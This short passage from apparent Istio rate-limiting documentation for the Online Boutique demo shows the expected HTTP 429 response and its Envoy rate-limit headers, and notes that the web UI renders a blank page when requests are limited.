```

* Expected Response - If you try the Online Boutique UI you will see a blank page because the rate-limit response is in the headers

```sh
HTTP/2 429
x-envoy-ratelimited: true
date: Sun, 05 Jun 2022 18:50:53 GMT
server: istio-envoy
x-envoy-upstream-service-time: 7
```
